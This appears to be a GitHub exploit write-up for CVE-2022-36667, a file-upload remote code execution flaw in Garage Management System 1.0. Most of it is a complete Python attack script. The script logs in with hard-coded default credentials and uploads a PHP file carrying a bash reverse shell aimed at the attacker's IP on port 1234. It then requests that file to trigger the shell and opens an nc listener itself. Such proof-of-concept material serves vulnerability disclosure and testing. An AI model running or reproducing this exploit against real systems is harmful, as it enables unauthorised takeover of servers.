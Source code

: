 # CVE-2022-36667
Writeup for [PacketStorm](https://packetstormsecurity.com/files/167802/Garage-Management-System-1.0-Shell-Upload.html)

## Garage Management System Remote Code Execution (RCE) via File Upload

<p># Date: 24/07/2022

<p># Exploit Author: saitamang

<!-- <p># Vendor Homepage: https://www.sourcecodester.com

<p># Software Link: https://www.sourcecodester.com/sites/default/files/download/mayuri_k/garage.zip -->

<p># Version: 1.0

<p># Tested on: Centos 7 + MySQL

<br>The automation script can be downloaded [here](https://github.com/saitamang/POC-DUMP/blob/main/Garage%20Management%20System/rce.py)

```
import requests, subprocess, string, sys, warnings, time, concurrent.futures
from requests.packages.urllib3.exceptions import InsecureRequestWarning
warnings.simplefilter('ignore',InsecureRequestWarning)
from netifaces import interfaces, ifaddresses, AF_INET

req = requests.Session()

proxies = {
    'http':'http://127.0.0.1:8080', 
    'https':'http://127.0.0.1:8080',
    }

def login(ip,username,password):  
    target = "http://%s/garage/garage/login.php" %ip
    data = {'username':username,'password':password, 'login':''}
    response = req.post(target, data=data)

    if 'Login Successfully' in response.text:
        print("[$] Success Login :)")
        trigger_rce(req)
    else:
        print("[$] Failed Login :(")

def creata_rs():
    for ifaceName in interfaces():
        addresses = [i['addr'] for i in ifaddresses(ifaceName).setdefault(AF_INET, [{'addr':'No IP addr'}] )]
        if ifaceName=="eth0":
            ipadd = ' '.join(addresses)
            f = open("saitamang.php", "w")
            payload = "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/"+str(ipadd)+"/1234 0>&1'\")?>"
            f.write(payload)
            f.close()
        else:
            pass

def trigger_rce(req):
    creata_rs()
    target = "http://%s/garage/garage/php_action/createProduct.php" %ip

    multipart_form_data = {
    "currnt_date": (None,""),
    "productImage": ("saitamang.php", open("saitamang.php", "rb")),
    "productName" : (None,"test"),
    "quantity" : (None,"1"),
    "rate" : (None,"1"),
    "brandName" : (None,"1"),
    "categoryName" : (None,"1"),
    "productStatus" : (None,"1"),
    "create" : (None,"")
    }

    response = req.post(target, files=multipart_form_data)

    print("[$] Enjoy your RCE :)")
    req.get("http://%s/garage/garage/assets/myimages/saitamang.php" %ip)


if __name__ == "__main__":
    print("   _____       _ __                                   ")
    print("  / ___/____ _(_) /_____ _____ ___  ____ _____  ____ _")
    print("  \__ \/ __ `/ / __/ __ `/ __ `__ \/ __ `/ __ \/ __ `/")
    print(" ___/ / /_/ / / /_/ /_/ / / / / / / /_/ / / / / /_/ / ")
    print("/____/\__,_/_/\__/\__,_/_/ /_/ /_/\__,_/_/ /_/\__, /  ")
    print("                                             /____/   \n\n")
    
    try:
        ip = sys.argv[1].strip()

        username = "mayuri.infospace@gmail.com"
        password = "rootadmin"

        subprocess.call(['terminator', '-e', 'nc -lvp 1234'])
        time.sleep(2)
        login(ip,username,password)
        
    except IndexError:
        print("[-] Usage %s <ip>" % sys.argv[0])
        print("[-] Example: %s 192.168.100.x" % sys.argv[0])
    sys.exit(-1)
```

